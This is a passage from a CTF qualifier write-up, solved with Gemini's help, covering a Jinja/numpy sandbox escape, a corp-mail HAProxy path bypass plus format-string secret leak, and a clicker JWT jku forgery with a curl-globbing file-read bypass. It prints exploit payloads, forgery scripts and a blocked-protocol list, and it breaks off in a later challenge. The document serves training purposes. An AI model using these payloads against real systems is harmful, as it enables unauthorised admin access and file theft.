# C2C CTF 2026 Quals Writeup

## Challenges

* [misc/welcome](#miscwelcome)
* [misc/jinjail](#miscjinjail)
* [web/corp-mail](#webcorp-mail)
* [web/clicker](#webclicker)
* [web/The Soldier of God, Rick](#webThe-Soldier-of-God-Rick)
* [forensics/Log](#forensicsLog)
* [forensics/Tattletale](#forensicsTattletale)
* [reverse/bunaken](#reversebunaken)
* [pwn/ns3](#pwnns3)
* [blockchain/tge](#blockchaintge)
* [blockchain/convergence](#blockchainconvergence)
* [blockchain/nexus](#blockchainnexus)

---

# misc/welcome

I know that this is just the **"sanity check"** challenge but the experience of getting the flag was hilarious, it's worth to mention here.

At first, i thought this was some kind of **OSINT** challenge and i start to search the flag from the official page, discord, every source i can find but got nothing,

Then somehow i clicked Home/Posts/Games menu on the sidebar and it's on the header the whole time



It takes me about **2,5 hours** to realize that the flag was closer than i thought. People said *"Sometimes, all you need is a step back"* and i guess it is what it is

Flag: **`C2C{welcome_to_c2c}`**

No AI Usage here (*obviously*)

---

# misc/jinjail

In this challenge, we got a `.zip` file that contains theses files:

```
jinjail/
├── app.py
├── docker-compose.yml
├── Dockerfile
├── fix.c
├── flag.txt
└── requirements.txt
```

According to the title and description of the challenge, I first assume this challenge would be similar to `pyjail` challenges.

After analyzing the files, I came to conclusion that my goal is to execute `fix.c` by running `/fix help` command to read the flag.

```bash
int main(int argc, char *argv[]) {
    if (argc > 1 && strcasecmp(argv[1], "help") == 0) {    # Needs 'help' arg
        setuid(0);
        system("cat /root/flag.txt");    # read flag.txt
    } else {

```

In `app.py` there's `waf` function that limits my input.

Blocklist:
* No quotes (`"` or `'`)
* No operators (`+`, `-`, `/`, `\\`, `|`)
* Some functions are restricted (`fromfile`, `savetxt`, `load`, `array`, etc)

There're also limitation for certain characters:

* `(`, `)`, `[`, `]`, `{`, `}` limited to 3
* `,` limited to 10

This challenge also run in `SanboxEnvironment` which restrict access to sensitive attributes such as `__globals__` or `__builtins__`

Beside, in `app.py` we can see that `numpy` registered as global library in the environment. So we can use this to retrieve some characters from outputs.

So my initial plan was to build string `/fix help` by slicing the string from some outputs and put it together.

Here's some of my trial and errors:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.os.system }}
Nope 
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.version }}
<module 'numpy.version' from '/usr/local/lib/python3.11/site-packages/numpy/version.py'> 
```

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.sys }}

```

After exploring several modules, i find that we can use `f2py` module. It's used to call Fortran compiler, but able to call shell internally.

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.main }}
<function main at 0x7f20fb9b8040> 
```

But after some trial, i can't find a way to build the string because of the limitation of `[]`.

Then, i stumble upon `f2py2e` submodule that recommended by **Gemini**

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.f2py2e.os.system }}
<built-in function system> 
```

This output shows that i can get `os` module by using `f2py2e` submodule. 

## Exploit

After several experiments, i tried to get the environment variables by using `numpy.f2py.f2py2e.os.environ`

```bash!
┌─[lasangna@parrot]─[~/ctf/c2c/misc/jinjail]
└──╼ $nc challenges.1pc.tf 37979
>>> {{ numpy.f2py.f2py2e.os.environ }}
environ({'KUBERNETES_SERVICE_PORT': '443', 'KUBERNETES_PORT': 'tcp://10.43.0.1:443', 'HOSTNAME': 'c2c2026-quals-misc-jinjail-bb7b127cef924561', 'HOME': '/home/ctf', 'PYTHONUNBUFFERED': '1', 'GPG_KEY': 'A035C8C19219BA821ECEA86B64E628F8D684696D', 'PYTHON_SHA256': '8d3ed8ec5c88c1c95f5e558612a725450d2452813ddad5e58fdb1a53b1209b78', 'PYTHONDONTWRITEBYTECODE': '1', 'KUBERNETES_PORT_443_TCP_ADDR': '10.43.0.1', 'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'KUBERNETES_PORT_443_TCP_PORT': '443', 'GZCTF_FLAG': 'C2C{damnnn_i_love_numpy_c62f51b9f296}', 'KUBERNETES_PORT_443_TCP_PROTO': 'tcp', 'LANG': 'C.UTF-8', 'PYTHON_VERSION': '3.11.14', 'KUBERNETES_SERVICE_PORT_HTTPS': '443', 'KUBERNETES_PORT_443_TCP': 'tcp://10.43.0.1:443', 'KUBERNETES_SERVICE_HOST': '10.43.0.1', 'PWD': '/app', 'GZCTF_TEAM_ID': '70', 'SOCAT_PID': '369', 'SOCAT_PPID': '1', 'SOCAT_VERSION': '1.8.0.3', 'USER': 'ctf', 'LOGNAME': 'ctf', 'SHELL': '/bin/bash', 'SOCAT_SOCKADDR': '10.244.9.142', 'SOCAT_SOCKPORT': '13337', 'SOCAT_PEERADDR': '10.244.0.0', 'SOCAT_PEERPORT': '53893'}) 
```


And as you can see, the flag is still in the environment variables. I got the flag not by executing `/fix help` but by the environment variables instead.

is this unintended? i guess we'll find out later...

Flag: **`C2C{damnnn_i_love_numpy_c62f51b9f296}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro** (at the begining but i got usage limit so then i use **Flash** afterward), accessed through Google AI Pro with a Student Account subscription.

The Prompts i sent mostly about how i use Gemini to search for modules or submodules from `numpy` that i can use.

for example:
```
find me a module that i can use to get some character for '/fix help' string
```

I also sent the feedbacks after i tried the recommendation Gemini gave to evaluate.

Gemini sometimes provides a complete recommendation to directly obtain the `/fix help` string along with the required slicing, for example:

```bash
{{ numpy.f2py.f2py2e.os.system(numpy.f2py.f2py2e.os.sep ~ numpy.float64.name[0] ~ numpy.f2py.f2py2e.os.name[3:5]) }}
```

In this case, the methodology I used to verify the output was to break the expression down and execute each part individually (without applying slicing first) to confirm the intermediate outputs. For instance, I started by evaluating `numpy.f2py.f2py2e.os.name` on its own to understand its raw value.

---

# web/corp-mail

This challenge has the following description:

*"Rumor said that my office's internal email system was breached somewhere... must've been the wind."*

From this description, I assumed that the challenge focuses on exploiting a weakness in an internal email system.

We are also given a `.zip` file containing the following files:

```
corp-mail/
├── docker-compose.yml
├── Dockerfile
├── flask_app
│   ├── application
│   │   ├── auth.py
│   │   ├── config.py
│   │   ├── db.py
│   │   ├── __init__.py
│   │   ├── routes
│   │   │   ├── admin.py
│   │   │   ├── auth.py
│   │   │   ├── __init__.py
│   │   │   └── user.py
│   │   ├── static
│   │   │   └── style.css
│   │   ├── templates
│   │   │   ├── admin_emails.html
│   │   │   ├── admin.html
│   │   │   ├── base.html
│   │   │   ├── compose.html
│   │   │   ├── email.html
│   │   │   ├── inbox.html
│   │   │   ├── login.html
│   │   │   ├── register.html
│   │   │   ├── sent.html
│   │   │   └── settings.html
│   │   └── utils.py
│   ├── app.py
│   ├── data
│   └── requirements.txt
├── haproxy
│   └── haproxy.cfg
├── run.sh
└── supervisord.conf
```

Based on the directory structure above, this application is built using Flask (Python) and runs behind HAProxy as a *reverse proxy*.

### HAProxy

First, I analyzed `haproxy.cfg` to look for potential vulnerabilities and found the following issue:

```cfg
backend flask_backend
    http-request deny if { path -i -m beg /admin }    # This rule
    server flask1 127.0.0.1:5000 check
```

This rule blocks all requests to the `/admin` path. However, HAProxy performs a literal path match. As a result, if I use `//admin`, the request bypasses the rule because HAProxy does not interpret it as `/admin`.

To verify that this bypass would work, I analyzed `routes/auth.py` and `requirements.txt` and found that the application uses **Werkzeug**. According to the [URL Routing - Werkzeug Documentation](https://werkzeug.palletsprojects.com/en/stable/routing/), `merge_slashes` is enabled by default. This means that when a request is sent to `//admin`, it will be normalized and treated as `/admin` by the Flask application.

Therefore, it is confirmed that the HAProxy rule can be bypassed.

### JWT

In `routes/admin.py`, I found that all endpoints are protected by the `@admin_required` decorator:

```python
@bp.route('/')
@admin_required
def panel():
    ...
```

Looking into `application/auth.py`:

```pyhton
def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        ...
        if not payload.get('is_admin'):
            flash('Admin access required', 'error')
            return redirect(url_for('user.inbox'))
        ...
```

From this, I concluded that the bearer token must contain an `is_admin` field. Based on this finding, I planned to perform **JWT forgery**.

### SSTI (Server-Side Template)

In `routes/user.py`, I found the following code:

```python
@bp.route('/settings', methods=['GET', 'POST'])
@login_required
def settings():
    ...
    if request.method == 'POST':
        signature_template = request.form.get('signature', '')
        ...
        formatted_signature = format_signature(signature_template, g.user['username'])
```

From `application/utils.py`, the `format_signature()` function calls the `.format()` method, which allows **attribute traversal and dictionary key access**.

## Exploit

First, I registered a user and logged in, then navigated to the settings page.

In the **Your Signature** field, I submitted the following payload:

```
{app.config[JWT_SECRET]}
```




This allowed me to leak the `JWT_SECRET`, which is required for token forgery.

Before forging a token, I needed to confirm the token payload format. To do this, I retrieved the current user token. In Chrome, this can be done by opening `F12`, navigating to the **Application** tab, then checking the **Cookies** section and copying the value of the `token` cookie.

I then pasted the token into [jwt.io](https://jwt.io) and also provided the leaked `JWT_SECRET` in the **JWT Signature Verification** section to verify that the secret was valid.



After confirming the payload structure, I created a **forged token** using the following Python script:

```python
# forge.py
import jwt
from datetime import datetime, timedelta

JWT_SECRET = "34a70b0d0df36447c4ce29da5f13307eefbdf7ed47b84f17ce791c123615a2fe"

payload = {
    'user_id': 6,
    'username': "lasang",
    'is_admin': 1,
    'exp': 9999999999 
}

# Encode token with HS256 (according to target config)
forged_token = jwt.encode(payload, JWT_SECRET, algorithm="HS256")

print("\n[+] JWT Forgery Successful!")
print("[+] Forged Admin Token:")
print("-" * 50)
print(forged_token)
print("-" * 50)
```



Next, I replaced the token in the browser with the forged one and accessed the path `//admin/`.



At this point, I successfully gained access to the Administration Panel. From there, I clicked **View Emails** for the **admin** user.



This revealed the email history for the admin account. I then opened the email sent to `mike.wilson` with the subject **"Confidential: ..."**.



Flag: **`C2C{f0rm4t_str1ng_l34k5_4nd_n0rm4l1z4t10n_93a7216dd963}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

Most of the prompts I used were focused on analyzing the source code and identifying potential vulnerabilities.

For example:
```
analyze this code and find the vulnerabilites ...
```

I also used Gemini to generate the `forge.py` script for creating the forged JWT token.

The methodology I used to verify Gemini’s output was to directly test the generated results. If the output failed, I analyzed the issue manually before making adjustments.  
For instance, in the case of `forge.py`, the initial token payload format generated by Gemini did not match the expected structure, causing the forgery attempt to fail. As a result, I analyzed the token using [jwt.io](https://jwt.io) and then adjusted the `forge.py` script accordingly to match the correct payload format.

---

# web/clicker

## Exploit

First, I registered an account and logged in to obtain a token.

After accessing `/game`, I retrieved the token from the browser. In Chrome, this can be done by pressing `F12`, navigating to the **Application** tab, then checking the **Cookies** section and copying the value of the `token`.

I then pasted the token into [jwt.io](https://jwt.io) to analyze its structure.

After understanding the token format being used, I used the `exploit.py` script to generate the contents of the `jwks.json` file as well as a **forged token**.

`exploit.py`

```python
import jwt
import json
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization

def int_to_base64(n):
    n_bytes = n.to_bytes((n.bit_length() + 7) // 8, byteorder='big')
    return base64.urlsafe_b64encode(n_bytes).rstrip(b'=').decode('utf-8')

# 1. Generate Key
private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
pn = private_key.public_key().public_numbers()

jwks = {
    "keys": [{
        "kty": "RSA",
        "kid": "key1",
        "use": "sig",
        "alg": "RS256",
        "n": int_to_base64(pn.n),
        "e": int_to_base64(pn.e)
    }]
}

# 2. Setup Payload & URL
ATTACKER_DOMAIN = "sandbox.lasangna.studio"
jku_url = f"http://payload_fix@localhost@{ATTACKER_DOMAIN}/jwks.json"

payload = {
    "is_admin": True,
    "jku": jku_url,
    "user_id": 1,
    "username": "admin"
}

headers = {
    "alg": "RS256",
    "kid": "key1"
}

private_pem = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.TraditionalOpenSSL,
    encryption_algorithm=serialization.NoEncryption()
)

token = jwt.encode(payload, private_pem, algorithm="RS256", headers=headers)

print("--- UPDATE /var/www/html/jwks.json ---")
print(json.dumps(jwks))
print("\n--- NEW FORGED TOKEN (JKU in Payload) ---")
print(token)
```



Next, I prepared `nginx` / `apache` / `ngrok` (in this case, I used `nginx`) to expose the `jwks.json` file from the `/var/www/html` directory.

I used a **DigitalOcean Droplet** with a custom domain, so after placing the `jwks.json` file in `/var/www/html` and starting `nginx`, the file became publicly accessible at:

```
http://[domain]/jwks.json
```

After that, I used the forged token from the previous step in the browser and attempted to access the `/admin` path.

At this point, I was redirected back to the login page. However, after several attempts, I noticed that when accessing `/admin`, the admin page briefly appeared before redirecting back to the login page.

To further analyze this behavior, I attempted to intercept the request using **BurpSuite** in order to inspect the redirect flow and the admin page.

After intercepting the request and sending it to the Repeater to analyze the admin page, I found the following redirect logic:

```html
    ...
    <script>
        const token = localStorage.getItem('token');
        const isAdmin = localStorage.getItem('is_admin') === 'true';

        if (!token || !isAdmin) {
            window.location.href = '/';
        } 
    ...
```

> **Note:** At this point, I realized that using Burp Suite was actually unnecessary, since the `admin.html` template exists in the `templates/` directory and the HTML source could be read directly.

It turns out there is an additional check using `localStorage`. Even though the JWT validation had already been bypassed successfully, the values in `localStorage` were still not updated.

To bypass this check, I modified the `localStorage` values directly via the browser console by executing the following commands:

```javascript
localStorage.setItem('token', '<forged-token>')
localStorage.setItem('is_admin', 'true')
```


After doing this, accessing the `/admin` path no longer resulted in a redirect. From the Admin Panel, it was possible to download a URL and save it into the `/static` directory. This behavior introduced a potential vulnerability that allows reading arbitrary files from the server using a `file:///...` URL.

However, upon inspecting `routes/admin.py`, I found the following code block:

```python
    # Make sure only http/s are allowed
    blocked_protocols = [
        'dict', 'file', 'ftp', 'ftps', 'gopher', 'gophers',
        'imap', 'imaps', 'ipfs', 'ipns', 'ldap', 'ldaps',
        'mqtt', 'pop3', 'pop3s', 'rtmp', 'rtsp', 'scp',
        'sftp', 'smb', 'smbs', 'smtp', 'smtps', 'telnet',
        'tftp', 'ws', 'wss',
    ]
```

This means that using a direct `file:///...` URL is not allowed. However, after further analysis of `routes/admin.py`, I found that the application retrieves files from a URL using `curl`, which exposes a feature that can be exploited.

By abusing **URL globbing**, it is possible to bypass this restriction. By modifying the URL to `f{i}le:///`, the blacklist check is bypassed, allowing file retrieval. For example, using the URL:

```
f{i}le:///flag.txt
```
(assuming the flag is stored in `flag.txt`).





With this technique, the input URL is successfully downloaded, and by accessing `/static/flag.txt`, the flag is revealed.



Flag: **`C2C{p4rs3r_d1sr4p4ncy_4nd_curl_gl0bb1ng_1s_my_f4v0r1t3_b7126096108f}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Most of the prompts I used were focused on analyzing source files and identifying vulnerabilities.

for example:
```
analyze this code and find the vulnerabilites ...
```

I also used Gemini to generate the `exploit.py` script for creating the `jwks.json` file and the forged token.

The methodology I used to verify Gemini’s output was to directly test the generated results. If something failed, I analyzed the behavior manually.  
For example, when analyzing the redirect behavior while accessing `/admin`, I first ensured that the JWT token and the `jwks.json` file were correctly configured. After that, I used Burp Suite to understand the redirect flow and asked Gemini to analyze the HTML logic in `admin.html`.

---

# web/The Soldier of God, Rick

First, I used the `file` command to inspect the `rick_soldier` binary:

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/web/soldier]
└──╼ $file rick_soldier 
rick_soldier: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=26a365a5a86653a3b19db1da67bf25628ea8f809, with debug_info, not stripped
```

From the output above, we can see that the binary is **not stripped**, which means we can perform initial analysis using `nm`.

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/web/soldier]
└──╼ $nm rick_soldier | grep "main\."
0000000000c8c680 D go:main.inittasks
0000000000ccd100 D main.content
00000000009ed1a0 r main.content.files
000000000076f180 T main.main
000000000076f760 T main.main.StripPrefix.func1
0000000000476080 T runtime.main.func1
0000000000447600 T runtime.main.func2
```

